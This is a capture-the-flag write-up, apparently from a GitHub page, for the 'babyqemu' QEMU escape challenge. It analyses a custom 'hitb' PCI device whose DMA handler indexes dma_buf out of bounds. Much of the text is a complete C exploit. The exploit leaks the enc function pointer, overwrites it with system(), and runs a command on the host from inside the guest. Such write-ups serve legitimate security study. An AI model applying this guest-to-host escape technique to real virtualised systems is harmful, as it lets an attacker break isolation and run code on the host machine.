

# babyqemu

Base knowledge can be found in QOM module analysis, etc.
## Analysis
Launch cmd is shown here.
```bash
./qemu-system-x86_64 \
-initrd ./rootfs.cpio \
-kernel ./vmlinuz-4.8.0-52-generic \
-append 'console=ttyS0 root=/dev/ram oops=panic panic=1' \
-monitor /dev/null \
-m 64M --nographic  -L ./dependency/usr/local/share/qemu \
-L pc-bios \
-device hitb,id=vda
```
In the qemu pci device mmio write callback function ```hitb_mmio_write(void *opaque, hwaddr addr, uint64_t val, unsigned int size)```
```c
else if ( addr == 0x98 && val & 1 && !(opaque->dma.cmd & 1) )
          {
            opaque->dma.cmd = val;
            v7 = qemu_clock_get_ns(QEMU_CLOCK_VIRTUAL_0);
            timer_mod(
              &opaque->dma_timer,
              ((signed __int64)((unsigned __int128)(0x431BDE82D7B634DBLL * (signed __int128)v7) >> 64) >> 18)
            - (v7 >> 63)
            + 100);
          }
```
It means we can set ```*((_QWORD *)opaque + 0x170)``` to the value we want. And in the function **hitb_mmio_write**, if we set this QWORD value, we can trigger some ```cpu_physical_memory_rw``` operation.

```c
if ( v1 & 2 )
    {
      v2 = (unsigned int)(LODWORD(opaque->dma.src) - 0x40000);
      if ( v1 & 4 )
      {
        v7 = (uint8_t *)&opaque->dma_buf[v2];
        ((void (__fastcall *)(uint8_t *, _QWORD))opaque->enc)(v7, LODWORD(opaque->dma.cnt));
        v3 = v7;
      }
      else
      {
        v3 = (uint8_t *)&opaque->dma_buf[v2];
      }
      cpu_physical_memory_rw(opaque->dma.dst, v3, opaque->dma.cnt, 1);
      v4 = opaque->dma.cmd;
      v5 = opaque->dma.cmd & 4;
    }
```
The parameters of ```cpu_physical_memory_rw``` is defined as ```void __fastcall cpu_physical_memory_rw(hwaddr addr, uint8_t *buf, int len, int is_write);```.
So
- ```opaque->dma.dst``` is the address
```c
if ( addr == 0x80 )
    {
      if ( !(opaque->dma.cmd & 1) )
        opaque->dma.src = val;
    }
```
- ```v7 = (uint8_t *)&opaque->dma_buf[v2];``` is the buf
- ```opaque->dma.cnt``` is the length
```c
//hitb_dma_timer
      if ( v1 & 4 )
      {
        v7 = (uint8_t *)&opaque->dma_buf[v2];
        ((void (__fastcall *)(uint8_t *, _QWORD))opaque->enc)(v7, LODWORD(opaque->dma.cnt));
        v3 = v7;
      }
      else
      {
        v3 = (uint8_t *)&opaque->dma_buf[v2];
      }
```
- ```opaque->dma.cmd``` means read or write operation
```cpu_physical_memory_rw``` is the original qemu function.
```c
void cpu_physical_memory_rw(hwaddr addr, uint8_t *buf,
                            int len, int is_write)
{
    address_space_rw(&address_space_memory, addr, MEMTXATTRS_UNSPECIFIED,
                     buf, len, is_write);
}
```

## vulnerability
### OOB Write
We can find the call operation for **cpu_physical_memory_rw** here.
```
if ( v1 & 2 )
    {
      v2 = (unsigned int)(LODWORD(opaque->dma.src) - 0x40000);
      if ( v1 & 4 )
      {
        v7 = (uint8_t *)&opaque->dma_buf[v2];
        ((void (__fastcall *)(uint8_t *, _QWORD))opaque->enc)(v7, LODWORD(opaque->dma.cnt));
        v3 = v7;
      }
      else
      {
        v3 = (uint8_t *)&opaque->dma_buf[v2];
      }
      cpu_physical_memory_rw(opaque->dma.dst, v3, opaque->dma.cnt, 1);
      v4 = opaque->dma.cmd;
      v5 = opaque->dma.cmd & 4;
    }
```
This call process is shown as follows, which aims to do WRITE to the real virtual memory belonging to QEMU PROCESS by translating GUEST PADDR to HOST PROCESS VADDR.
```c
cpu_physical_memory_rw(opaque->dma.dst,
                       (uint8_t *)&opaque->dma_buf[(unsigned int)(LODWORD(opaque->dma.src) - 0x40000)], //OOB READ
                       opaque->dma.cnt, 1);
    >address_space_rw(&address_space_memory,
                      opaque->dma.dst,
                      1,
                      (uint8_t *)&opaque->dma_buf[(unsigned int)(LODWORD(opaque->dma.src) - 0x40000)], //OOB READ
                      opaque->dma.cnt,
                      is_write != 0);
        >address_space_write(address_space_memory,
                             opaque->dma.dst,
                             1,
                             (uint8_t *)&opaque->dma_buf[(unsigned int)(LODWORD(opaque->dma.src) - 0x40000)], //OOB READ
                             opaque->dma.cnt)
            >v10 = address_space_translate(address_space_memory,
                                           opaque->dma.dst,
                                           &addr1,
                                           &l //l = opaque->dma.cnt,
                                           1);
             v14 = qemu_map_ram_ptr(v10->ram_block, v27); //v27 == addr1
             memcpy(v14, v5, n);// do memcpy operation
```
So, we can copy an <font color=red>OOB READ</font> memory to our <font color=red>process's physical address</font> (opaque->dma.dst).
LEAK CAN BE DONE THROUGH THIS VULN.
### OOB WRITE
We can find the call operation for **cpu_physical_memory_rw** here, too.
```c
else
    {
      v6 = (uint8_t *)&opaque[0xFFFFFFDBLL].dma_buf[(unsigned int)opaque->dma.dst + 0x510];
      LODWORD(v3) = (_DWORD)opaque + opaque->dma.dst - 0x40000 + 0xBB8;
      /*
      ASM can be more explicit here
      .text:0000000000284120                 mov     rax, [rdi+0B70h] ; HitbState.dst
      .text:0000000000284127                 mov     edx, [hitb+0B78h] ; len
      .text:000000000028412D                 xor     ecx, ecx        ; is_write
      .text:000000000028412F                 sub     eax, 40000h
      .text:0000000000284134                 lea     rbp, [rdi+rax+0BB8h]
      .text:000000000028413C                 mov     rdi, [rdi+0B68h] ; addr
      .text:0000000000284143                 mov     rsi, rbp        ; buf
      .text:0000000000284146                 call    cpu_physical_memory_rw
      */
      cpu_physical_memory_rw(opaque->dma.src, v6, opaque->dma.cnt, 0);
      v4 = opaque->dma.cmd;
      v5 = opaque->dma.cmd & 4;
      if ( opaque->dma.cmd & 4 )
      {
        v3 = (uint8_t *)LODWORD(opaque->dma.cnt);
        ((void (__fastcall *)(uint8_t *, uint8_t *, dma_addr_t))opaque->enc)(v6, v3, v5);
        v4 = opaque->dma.cmd;
        v5 = opaque->dma.cmd & 4;
      }
    }
    opaque->dma.cmd = v4 & 0xFFFFFFFFFFFFFFFELL;
    if ( v5 )
    {
      opaque->irq_status |= 0x100u;
      hitb_raise_irq(opaque, (uint32_t)v3);
    }
```
So, the parameter **v6** of **cpu_physical_memory_rw** can make the read destination out of boundry.
We can use it to overwrite the **opaque->enc** function pointer.
And, **opaque->dma.src** will be translated from **GUEST PADDR** to **HOST VADDR**.
So, we just need to set a paddr belonging to our process to set the source of this COPY operation.

## exploit
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <assert.h>

#define PRINT_ERROR \
 do { \
  fprintf(stderr, "Error at line %d, file %s (%d) [%s]\n", \
  __LINE__, __FILE__, errno, strerror(errno)); exit(1); \
 } while(0)

#define MAP_SIZE 4096UL
#define MAP_MASK (MAP_SIZE - 1)

int fd = -1;

char *filename = "/sys/devices/pci0000:00/0000:00:04.0/resource0";

//not used~
void pcimem_read(uint64_t target, char access_type, uint64_t *read_result)
{
 /* Map one page */
 void *map_base = mmap(0, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, target & ~MAP_MASK);
 if(map_base == (void *) -1) PRINT_ERROR;
 printf("PCI Memory mapped to address 0x%08lx.\n", (unsigned long) map_base);

 void *virt_addr = map_base + (target & MAP_MASK);
 int type_width = 0;

 switch(access_type)
 {
  case 'b':
   *read_result = *((uint8_t *) virt_addr);
   type_width = 1;
   break;
  case 'h':
   *read_result = *((uint16_t *) virt_addr);
   type_width = 2;
   break;
  case 'w':
   *read_result = *((uint32_t *) virt_addr);
   type_width = 4;
   break;
  case 'd':
   *read_result = *((uint64_t *) virt_addr);
   type_width = 8;
   break;
 }

 printf("Value at offset 0x%X (%p): 0x%0*lX\n", (int) target, virt_addr, type_width*2, *read_result);
 if(munmap(map_base, MAP_SIZE) == -1)
  PRINT_ERROR;
}

void pcimem_write(uint64_t target, char access_type, uint64_t writeval)
{
 /* Map one page */
 void *map_base = mmap(0, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, target & ~MAP_MASK);
 if(map_base == (void *) -1) PRINT_ERROR;
 printf("PCI Memory mapped to address 0x%08lx.\n", (unsigned long) map_base);
 uint64_t read_result = 0;

 int type_width = 0;
 void *virt_addr = map_base + (target & MAP_MASK);

 switch(access_type)
 {
  case 'b':
   *((uint8_t *) virt_addr) = writeval;
   read_result = *((uint8_t *) virt_addr);
   type_width = 1;
   break;
  case 'h':
   *((uint16_t *) virt_addr) = writeval;
   read_result = *((uint16_t *) virt_addr);
   type_width = 2;
   break;
  case 'w':
   *((uint32_t *) virt_addr) = writeval;
   read_result = *((uint32_t *) virt_addr);
   type_width = 4;
   break;
  case 'd':
   *((uint64_t *) virt_addr) = writeval;
   read_result = *((uint64_t *) virt_addr);
   type_width = 8;
   break;
 }
 //readback not correct?
 printf("Written 0x%0*lX; readback 0x%*lX\n", type_width, writeval, type_width, read_result);
 if(munmap(map_base, MAP_SIZE) == -1)
  PRINT_ERROR;
}
uint64_t virt2phys(void* p)
{
    uint64_t virt = (uint64_t)p;

    // Assert page alignment
    assert((virt & 0xfff) == 0);

    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd == -1)
        PRINT_ERROR;
    uint64_t offset = (virt / 0x1000) * 8;
    lseek(fd, offset, SEEK_SET);

    uint64_t phys;
    if (read(fd, &phys, 8 ) != 8)
        PRINT_ERROR;

    // Assert page present
    assert(phys & (1ULL << 63));

    phys = (phys & ((1ULL << 54) - 1)) * 0x1000;
    return phys;
}

int main()
{
    if((fd = open(filename, O_RDWR | O_SYNC)) == -1)
        PRINT_ERROR;
    //for dma read and write
    void *dma_addr = mmap(0, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (dma_addr == (void *)-1)
        PRINT_ERROR;
    // lock the dma_addr from hw mem
    mlock(dma_addr, 0x1000);
    void *dma_phy_addr = (void *)virt2phys(dma_addr);


    //Step 1
    // leak code base
    //set dma.src
    pcimem_write(0x80, 'd', (uint64_t)(0x40000 + 0x1000));
    //set dma.dst
    pcimem_write(0x88, 'd', (uint64_t)dma_phy_addr);
    //set cnt
    pcimem_write(0x90, 'd', 8);
    //set cmd to write
    pcimem_write(0x98, 'd', 2 | 1);
    //wait for timer being triggered.
    sleep(1);
    uint64_t enc_address = *(uint64_t *)dma_addr;
    printf("enc_address (host vaddr) --> 0x%016lx\n", enc_address);
    uint64_t code_base = enc_address - 0x283DD0;
    uint64_t system_addr = code_base + 0x1FDB18;
    *(uint64_t *)dma_addr = system_addr;

    //Step 2
    //overwrite function pointer
    //set dma.src
    pcimem_write(0x80, 'd', (uint64_t)dma_phy_addr);
    //set dma.dst
    //.text:0000000000284120                 mov     rax, [rdi+0B70h] ; dst
    //.text:0000000000284127                 mov     edx, [hitb+0B78h] ; len
    //.text:000000000028412D                 xor     ecx, ecx        ; is_write
    //.text:000000000028412F                 sub     eax, 40000h
    //.text:0000000000284134                 lea     rbp, [rdi+rax+0BB8h]
    //.text:000000000028413C                 mov     rdi, [rdi+0B68h] ; addr
    //.text:0000000000284143                 mov     rsi, rbp        ; buf
    //.text:0000000000284146                 call    cpu_physical_memory_rw
    pcimem_write(0x88, 'd', (uint64_t)(0x40000 + 0x1000));
    //set cnt
    pcimem_write(0x90, 'd', 8);
    //set cmd read
    //read sys_addr to HitbState->enc function pointer
    pcimem_write(0x98, 'd', 1);
    sleep(1);

    //Step3
    //prepare a parameter for system and trigger it
    strcpy((char *)(dma_addr) + 0x10, "deepin-calculator");
    //set dma.src to the paddr of dma
    pcimem_write(0x80, 'd', (uint64_t)dma_phy_addr + 0x10);
    //set dma.dst to the buf of device Hitb
    pcimem_write(0x88, 'd', (uint64_t)(0x40000));
    //set cnt
    pcimem_write(0x90, 'd', 18);
    //set cmd read
    //read sys_addr to HitbState->enc function pointer
    pcimem_write(0x98, 'd', 1 | 4);
    sleep(1);

    return 0;
}

```
